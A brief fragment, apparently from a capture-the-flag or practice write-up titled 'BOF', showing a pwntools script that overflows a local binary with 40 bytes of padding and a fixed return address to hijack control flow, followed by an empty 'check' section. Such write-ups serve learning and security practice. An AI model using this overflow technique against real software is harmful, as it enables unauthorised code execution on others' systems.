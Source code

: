 # ***BOF***

```
from pwn import *
io = process("./bof")
payload = b"A"*40
payload += p64(0x00000000004011b6)
io.sendline(payload)
io.interactive()
```
# ***check***

```

